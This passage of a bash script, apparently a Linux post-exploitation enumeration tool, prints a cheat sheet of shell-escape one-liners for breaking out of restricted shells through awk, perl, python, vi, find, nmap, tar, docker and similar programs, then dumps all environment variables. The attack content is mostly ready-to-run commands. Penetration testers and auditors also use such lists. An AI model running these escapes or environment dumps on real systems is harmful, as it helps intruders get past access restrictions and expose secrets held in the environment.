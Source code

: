 	FETCHBSD=$(command -v fetch 2>/dev/null)
	if [ "$FETCHBSD" ];
	then
		echo "$FETCHBSD"
	else
		:
	fi
	echo ""

	echo $cyan"[+] - Shell escape:"$white
	echo "awk    =	awk 'BEGIN {system(\"/bin/sh\")}'"
	echo "perl   =	perl -e 'exec \"/bin/sh\";'"
	echo "python = 	python -c 'import pty;pty.spawn(\"/bin/sh\")'"
	echo "php    =	php -r 'system(\"/bin/sh\");'"
	echo "ruby   =	ruby -e 'exec \"/bin/sh\"'"
	echo "less   =	!sh"
	echo "more   =	!sh"
	echo "man    =	!sh"
	echo "nmap   =	--interactive"
	echo "nmap   =	echo \"os.execute('/bin/sh')\" > /tmp/shell.nse"
	echo "find   =	find / -exec /usr/bin/awk 'BEGIN {system(\"/bin/sh\")}' \;"
	echo "find   =	find / -exec sh -i \;"
	echo "vi     =	:!sh or :shell or -c '!sh'"
	echo "vim    =	:!sh or :shell or -c '!sh'"
	echo "gdb    =	shell"
	echo "pinfo  =	! -> less -> !sh"
	echo "mutt   =	! -> sh"
	echo "expect =	expect or expect -> sh"
	echo "docker =	docker exec -ti {CONTAINER_ID} bash"
	echo "ftp    =	!sh"
	echo "irb    =	exec '/bin/sh'"
	echo "ed     =	!'/bin/sh'"
	echo "links  =	ESC -> FILE -> OS Shell"
	echo "lynx   =	lynx --editor=/usr/bin/vi www.postenum.com"
	echo "/      =	/bin/bash or /bin/sh"
	echo "cp     =	cp /bin/bash escape_bash -> ./escape_bash"
	echo "tar    =	tar xf /dev/null -I '/bin/sh -c \"sh <&2 1>&2\"'"
	echo "tar    =	tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh"
	echo ""
	echo "node   =	node -e 'var exec = require(\"child_process\").exec;
exec(\"id\", function (error, stdOut, stdErr) {
    console.log(stdOut);
});'"
	echo ""
	echo $redintensy" ** NOTE that you can replace 'sh' with 'bash'**"$white
	echo ""

	echo $cyan"[+] - List all Environment Variables:"$white
	PRINTENV=$(printenv 2>/dev/null)
	if [ "$PRINTENV" ];
	then
		echo -e "$PRINTENV\n"
	else
		echo -e "None -> Probably needs more privileges(sudo), the command 'printenv' not found or empty output!\n"
	fi
